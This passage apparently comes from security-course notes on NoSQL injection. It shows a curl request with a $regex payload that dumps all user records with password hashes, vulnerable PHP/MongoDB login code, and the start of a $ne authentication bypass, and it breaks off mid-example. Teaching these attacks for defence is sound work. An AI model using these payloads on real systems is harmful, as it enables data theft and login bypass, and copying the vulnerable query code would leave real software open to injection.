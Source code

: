 - A simple example of exploiting this injection vulnerability is using the `$regex` operator described in the previous section to coerce the server into returning the information of all users (whose usernames match `/.*/`), like this:
```bash
[!bash!]$ curl -s -X POST http://127.0.0.1:3000/api/v1/getUser -H 'Content-Type: application/json' -d '{"username": {"$regex": ".*"}}' | jq

[
  {
    "_id": "63667302b7417b0045435139",
    "username": "bmdyy",
    "password": "f25a2fc72690b780b2a14e140ef6a9e0",
    "role": 0,
    "email": "football55@gmail.com"
  },
  {
    "_id": "63667326b7417b004543513a",
    "username": "gerald1992",
    "password": "0f626d75b12f77ede3822843320ed7eb",
    "role": 1,
    "email": "g.sanchez@yahoo.com"
  }
]
```

#### Types of NoSQL Injection
- If you are familiar with SQL injection, then you will already be familiar with the various classes of injections that we may encounter:

    - In-Band: When the attacker can use the same channel of communication to exploit a NoSQL injection and receive the results. The scenario from above is an example of this.
    - Blind: This is when the attacker does not receive any direct results from the NoSQL injection, but they can infer results based on how the server responds.
    - Boolean: Boolean-based is a subclass of blind injections, which is a technique where attackers can force the server to evaluate a query and return one result or the other if it is True or False.
    - Time-Based: Time-based is the other subclass of blind injections, which is when attackers make the server wait for a specific amount of time before responding, usually to indicate if the query is evaluated as True or False.

## Bypassing Authentication
- On the server-side, the authentication function these parameters are being passed to looks like this:
```php
...
if ($_SERVER['REQUEST_METHOD'] === "POST"):
    if (!isset($_POST['email'])) die("Missing `email` parameter");
    if (!isset($_POST['password'])) die("Missing `password` parameter");
    if (empty($_POST['email'])) die("`email` can not be empty");
    if (empty($_POST['password'])) die("`password` can not be empty");

    $manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
    $query = new MongoDB\Driver\Query(array("email" => $_POST['email'], "password" => $_POST['password']));
    $cursor = $manager->executeQuery('mangomail.users', $query);
        
    if (count($cursor->toArray()) > 0) {
        ...
```
- A straightforward way to inject would be to use the `$ne` query operator on both email and password to match values that are not equal to something we know doesn't exist. To put it in words, we want a query that matches email is not equal to 'test@test.com', and the password is not equal to 'test'.
```bash
db.users.find({
```